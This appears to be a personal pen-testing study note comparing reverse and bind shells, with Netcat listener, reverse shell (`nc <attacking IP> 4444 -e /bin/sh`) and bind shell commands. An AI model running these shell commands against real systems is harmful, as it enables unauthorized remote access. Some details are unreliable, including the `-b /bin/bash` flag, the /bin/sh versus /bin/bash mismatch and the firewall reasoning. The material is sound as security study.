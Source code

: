 
# Reverse Shells vs. Bind Shells
Shells are just a way to gain and maintain access to a target machine. The most common type of shell is a [reverse shell](/cybersecurity/TTPs/exploitation/rev-shell.md) in which the victim machine connects back to us. A common tool used to accomplish rev-shells is *[Netcat](/cybersecurity/tools/exploitation/netcat.md)*.
## Rev Shells
In order for rev shells to work, the attacking device needs to be listening on a specific port for the connection. In Netcat we can tell our device to listen on a chosen port with the command: `nc -lvp 4444`.
- `-l` for listen
- `-v` for verbose
- `-p` for port
With this command, we're telling Netcat to listen on port 4444 of our machine.
### On the target:
To get the target to connect to our listener, we have to send execute a command on the target to make the connection. For example: if the target *has netcat installed* (or we've some how gotten netcat onto the target machine) we can use it to make a connection back to our machine.

The command on the target in this case would look something like this:
```bash
nc <attacking IP> 4444 -e /bin/sh
```
In this command, nc on the target device creates a *[TCP connection](/networking/protocols/TCP.md)* back to the attacking IP, and executing a shell (`/bin/bash`) using the `-e` flag (the shell is executed on the target device).
## Bind Shells
[Bind shells](/cybersecurity/TTPs/exploitation/bind-shell.md) are essentially *the reverse of rev shells.* In bind shells, we *open a port on the target for listening* and make the TCP connection to that address from the attacker.

The shell execution *is still from the target's device*:
```bash
# Attacking command (example)
nc <target IP> 4444
# Target command (ex)
nc -lvp 4444 -b /bin/bash
```
Bind shells are more commonly used during *external pen-tests* b/c it's easier to make the connection to the target (due to firewalls and other factors complicating external network access).

> [!My previous notes (linked in text)]
> - [Rev Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/rev-shell.md) 
> - [Netcat](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/tools/netcat.md)
> - [TCP](https://github.com/TrshPuppy/obsidian-notes/tree/main/networking/protocols/TCP.md)
> - [Bind Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/bind-shell.md) 
> - [blank](https://github.com/TrshPuppy/obsidian-notes/tree/main/)